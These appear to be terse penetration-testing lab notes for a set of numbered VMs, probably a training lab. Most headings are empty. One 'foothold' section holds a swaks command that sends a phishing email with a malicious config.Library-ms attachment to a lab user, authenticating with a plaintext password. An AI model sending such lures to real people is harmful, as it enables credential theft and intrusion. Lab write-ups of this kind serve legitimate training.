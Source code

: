 # VM 1 .6

# VM 4 .14
## foothold
```
sudo swaks -t jim@relia.com --from maildmz@relia.com --auth-password DPuBT9tGCBrTbR --attach @config.Library-ms --server 192.168.192.189 --body body.txt --header "Subject: Problems" --suppress-data
```
## Root


# VM 5 .30

# VM 6 .15

# VM 7 .19

# VM 8 .20

# VM 9 .21

# VM 15 .7

